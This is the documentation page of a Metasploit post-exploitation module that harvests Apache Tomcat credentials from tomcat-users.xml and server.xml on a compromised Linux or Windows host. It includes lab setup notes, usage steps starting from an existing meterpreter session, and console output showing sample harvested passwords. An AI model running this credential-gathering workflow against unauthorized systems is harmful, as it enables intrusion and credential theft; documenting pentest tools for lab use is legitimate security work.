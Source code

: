## Creating A Testing Environment
  For this module to work you need a linux or windows machine.
  For linux you can run something like apt-get install tomcat7 to get a working tomcat service.
  For WIndows you can download tomcat from http://tomcat.apache.org/ and then install it as a service.

This module has been tested against:

  1. Xubuntu 16.04 with tomcat 7,8.
  2. Windows 10 with tomcat 6,7.

This module was not tested against, but may work against:

  1. Other versions of linux running tomcat v4-9
  2. Other version of windows running tomcat v4-9

## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session via whatever method
  3. Do: 'use post/multi/gather/tomcat_gather'
  4. Do: 'set session #'
  5. Do: 'run'

## Scenarios

### Xubuntu 16.04 with tomcat 7 and 8

#### Running without read permissions

    msf post(tomcat_gather) > set session 1
    session => 1
    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:19:27] Unix OS detected
    [*] [2017.03.31-10:19:28] /etc/tomcat7/tomcat-users.xml found
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat7/tomcat-users.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat7/tomcat-users.xml you probably don't have permission to open the file or parsing failed.
    [*] [2017.03.31-10:19:28] /etc/tomcat8/tomcat-users.xml found
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat8/tomcat-users.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat8/tomcat-users.xml you probably don't have permission to open the file or parsing failed.
    [*] [2017.03.31-10:19:28] Attempting to extract Tomcat listening ports from /etc/tomcat7/server.xml
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat7/server.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat7/server.xml you probably don't have permission to open the file or parsing failed
    [*] [2017.03.31-10:19:28] Attempting to extract Tomcat listening ports from /etc/tomcat8/server.xml
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat8/server.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat8/server.xml you probably don't have permission to open the file or parsing failed
    [*] [2017.03.31-10:19:28] No user credentials have been found
    [*] Post module execution completed

#### Running with read permissions

    msf post(tomcat_gather) > set session 2
    session => 2
    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:33:14] Unix OS detected
    [*] [2017.03.31-10:33:15] /etc/tomcat7/tomcat-users.xml found
    [*] [2017.03.31-10:33:15] /etc/tomcat8/tomcat-users.xml found
    [*] [2017.03.31-10:33:15] Attempting to extract Tomcat listening ports from /etc/tomcat7/server.xml
    [*] [2017.03.31-10:33:15] Attempting to extract Tomcat listening ports from /etc/tomcat8/server.xml
    [+] [2017.03.31-10:33:16] Username and password found in /etc/tomcat7/tomcat-users.xml - tomcat2:s3cret
    [+] [2017.03.31-10:33:16] Username and password found in /etc/tomcat8/tomcat-users.xml - tomcat2:s3cret
    [*] Post module execution completed
        
    msf post(tomcat_gather) > creds
    Credentials
    ===========

    host        origin      service            public   private  realm  private_type
    ----        ------      -------            ------   -------  -----  ------------
    10.10.10.6  10.10.10.6  8080/tcp (Tomcat)  tomcat2  s3cret          Password


### Windows 10 with tomcat 7

#### Running with read permissions

    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:43:18] Windows OS detected, enumerating services
    [+] [2017.03.31-10:43:18] Tomcat service found
    [*] [2017.03.31-10:43:18] C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml found!
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - tomcat:tomcat
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - both:<must-be-changed>
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - role1:<must-be-changed>
    [*] Post module execution completed

    msf post(tomcat_gather) > creds
    Credentials
    ===========

    host        origin      service            public   private            realm  private_type
    ----        ------      -------            ------   -------            -----  ------------
    10.10.10.6  10.10.10.6  8080/tcp (Tomcat)  tomcat2  s3cret                    Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  tomcat   tomcat                    Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  both     <must-be-changed>         Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  role1    <must-be-changed>         Password